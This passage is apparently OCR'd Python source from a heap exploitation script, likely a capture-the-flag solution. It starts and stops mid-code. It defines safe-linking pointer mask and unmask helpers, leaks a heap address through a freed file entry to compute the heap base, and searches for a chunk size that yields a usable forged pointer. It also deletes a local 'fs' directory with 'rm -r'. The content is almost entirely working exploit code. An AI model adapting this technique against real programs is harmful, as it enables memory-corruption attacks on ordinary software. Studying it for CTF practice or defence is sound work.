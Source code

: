 ```python
        io.sendlineafter("size:", str(len(fname)))
    io.sendlineafter("name: ", fname)

def mask(p, l):
    return p ^ (l >> 12)

def unmask(p, l):
    return mask(p, l)

def new_ptr_addr(next_addr):
    sz = 0x40

    while sz < 0x400:
        masked = mask(next_addr+sz, next_addr)
        lb = masked & 0xff
        masked = (masked >> 16) << 16
        masked += lb

        new_addr = unmask(masked, next_addr)

        if new_addr > next_addr:
            print(f"New addr: {hex(new_addr)} sz: {sz}")
            return sz, new_addr

        sz += 0x10

    return 0, 0

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
# pwndbg tele command
gdbscript = '''
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================

# max size = 0x400
os.system("rm -r fs")

io = start(argv, env=env)

create("a", "A\x00", 0x10)
remove("a")
create("a", "\x00", 0x10)

show("a")
leak = io.recvuntil("C")[-6:-1]
leak = leak.ljust(0x8, b'\x00')
leak = u64(leak) << 12

heap_base = leak
print("Heap base: ", hex(leak))

chunk_addr = heap_base + 0x310 + 0x820
print("Next chunk addr: ", hex(chunk_addr))

sz, new_addr = new_ptr_addr(chunk_addr)

if sz == 0x0:
```